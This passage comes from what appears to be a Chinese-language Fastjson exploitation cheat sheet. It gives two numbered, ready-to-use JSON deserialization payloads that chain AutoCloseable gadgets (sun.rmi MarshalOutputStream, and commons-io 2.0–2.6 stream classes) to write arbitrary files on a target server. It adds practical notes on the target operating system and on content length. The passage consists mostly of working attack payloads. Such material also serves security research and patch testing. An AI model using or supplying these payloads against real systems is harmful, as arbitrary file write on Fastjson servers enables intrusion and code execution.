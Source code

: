 `payload45`：

```json
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"C:/Users/whoami/Desktop/testtesttest.txt",
                "append":false
            },
            "infl":{
                "input":"SGVsbG8sIFcwMWZoNGNrZXIh"
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}
```

`Windows`下利用会报错，只能在目标是`centos`的情况下使用：

![image-20231021200857762](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021200857762.png)

至于为什么会这样，请参考以下文章，写的很清楚很明白，在此不再赘述：

> https://www.cnblogs.com/zpchcbd/p/14969606.html

### 5.1.2 commons-io 2.0~2.6版本

`payload46`：

需要注意，需要修改下面的`W01fh4ckeraaaaaa...`为自己想要写入的内容，需要注意的是，**长度要大于`8192`，实际写入前`8192`个字符**！具体原因请参考下面的文章，文章里面写的非常清楚：

> https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg

```json
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.txt","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```

